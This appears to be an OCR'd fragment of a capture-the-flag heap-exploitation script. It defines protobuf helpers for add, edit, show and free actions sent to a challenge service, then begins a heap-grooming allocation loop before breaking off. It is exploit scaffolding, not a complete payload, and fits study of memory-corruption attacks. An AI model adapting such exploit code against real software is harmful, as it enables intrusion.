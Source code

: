 ```python

    msg.msgcontent = data

    serialized_msg = msg.SerializeToString()

    sa(b'now: \n', serialized_msg)

def edit(idx, data):

    msg = devicmesg_pb2.devicmesg()

    msg.actionid = 2

    msg.msgidx = idx

    msg.msgsize = 1

    msg.msgcontent = data

    serialized_msg = msg.SerializeToString()

    sa(b'now: \n', serialized_msg)

def show(idx):

    msg = devicmesg_pb2.devicmesg()

    msg.actionid = 3

    msg.msgidx = idx

    msg.msgsize = 1

    msg.msgcontent = b'a'

    serialized_msg = msg.SerializeToString()

    sa(b'now: \n', serialized_msg)

def free(idx):

    msg = devicmesg_pb2.devicmesg()

    msg.actionid = 4

    msg.msgidx = idx

    msg.msgsize = 1

    msg.msgcontent = b'a'

    serialized_msg = msg.SerializeToString()

    sa(b'now: \n', serialized_msg)

 

for i in range(1, 10):

    add(i, 0xf0, b'a'*0xf0)

for i in range(1, 9):

```